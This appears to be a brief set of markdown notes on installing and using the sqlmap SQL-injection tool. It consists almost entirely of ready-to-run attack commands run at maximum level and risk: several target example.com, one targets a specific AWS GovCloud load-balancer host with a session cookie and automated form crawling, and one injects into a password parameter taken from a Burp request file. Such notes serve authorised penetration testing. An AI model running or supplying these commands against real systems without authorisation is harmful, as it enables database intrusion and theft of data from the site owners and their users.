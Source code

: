 

# install

    brew install sqlmap
    

# usage

example usage

    sqlmap --user-agent "test" --url "https://example.com" --threads=4 --dbms MySQL --level=5 --risk=3 --banner --answers="union-char=Y" --keep-alive --eta -v 3


## POST

    sqlmap --user-agent "test" --url "https://example.com" --cookie="JSESSIONID=9C8352B26D684A5D1AA725628B0082EE;"  -p "userid"  --level 5 
    
sqlmap -u https://boutte-reanplatform-dockerhost-208184116.us-gov-west-1.elb.amazonaws.com/reandeploy#/home/dnow/1 --forms --batch --crawl=10 --cookie="JSESSIONID=9C8352B26D684A5D1AA725628B0082EE;" --level=5 --risk=3



## burp suite

attach post request with configuration coming from burp file
    
    ./sqlmap.py -r search-test.txt -p tfUPass